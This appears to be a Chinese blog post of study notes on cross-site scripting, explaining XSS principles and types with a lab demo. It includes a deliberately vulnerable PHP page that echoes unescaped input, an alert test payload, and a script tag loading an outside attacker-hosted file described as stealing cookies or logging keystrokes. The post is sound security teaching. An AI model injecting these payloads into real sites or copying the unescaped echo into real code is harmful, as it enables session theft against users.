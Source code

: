 ```yaml
---
title: （二）Web安全深度剖析学习【XSS】
date: 2018-05-17 16:56:51
tags: [WebSecurity, XSS]
categories: WebSecurity
---
```

《Web安全深度剖析》学习总结, 本部分主要包括XSS原理及三种类型XSS攻击和预防。
一篇较好的博客[XSS跨站脚本攻击(一)----XSS攻击的三种类型](https://blog.csdn.net/u011781521/article/details/53894399)。

# XSS跨站脚本漏洞 #
XSS(Cross Site Scripting)，即跨站脚本攻击。指攻击者在网页中嵌入客户端脚本，通常是JS编写的恶意代码，当用户使用浏览器浏览被嵌入恶意代码的网页时，恶意代码将会在用户浏览器上执行。XSS属于客户端攻击。

## XSS原理 ##
XSS攻击在网页中嵌入客户端恶意脚本代码，这些恶意脚本代码一般使用JavaScript编写，所以JS能做到什么效果，XSS的威力就有多大。
JavaScript可以用来获取用户cookie，改变页面内容、url跳转，所以存在XSS漏洞的网站就可以盗取用户cookie、黑掉页面、导航到恶意网站。

如下，在formProcess_XSS目录下，创建index.html和index.php，添加如下代码：
**index.html**
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>XSS form process</title>
</head>
<body>
    <form action="index.php" method="POST">
        <input type="text" name="username" />
        <input type="submit" value="提交" />
    </form>
</body>
</html>
```
**index.php**
```php
<?php
    //echo $_SERVER['PHP_SELF'];
    $user_name = $_POST["username"];
    echo $user_name;
?>
```
然后将formProcess_XSS目录丢到phpStudy的WWW目录下，浏览器访问`http://192.168.1.101/formProcess_XSS/index.html`，其中192.168.1.101表示虚拟服务器的地址，当在文本输入框中输入`<script>alert("XSS")</script>`，然后点击提交，就会触发XSS攻击，因为index.php未对用户输入的内容作处理，没有将html的字符处理为html实体，如下：

![XSS攻击学习](https://githubblogbucket1-1258277786.cos.ap-shanghai.myqcloud.com/XSS%E6%94%BB%E5%87%BB%E5%AD%A6%E4%B9%A0/XSS%E6%94%BB%E5%87%BB.png)
攻击者可以在`<script>`和`</script>`之间输入JavaScript代码，实现一定的攻击效果。在真实攻击中，攻击者不仅仅弹出一个框，通常使用`<script src="http://www.secbug.org/x.txt"></script>`方式来加载外部脚本，而在`x.txt`中存放着攻击者的恶意JavaScript代码，这段代码可能是用来盗取用户的Cookie，也可能是监控键盘记录等恶意行为。
## XSS类型 ##
XSS主要分为三类，反射型(经过后端，不经过数据库)、存储型(经过后端，经过数据库)、DOM型(不经过后端)。
反射型 XSS 的数据流向是：浏览器 -> 后端 -> 浏览器。

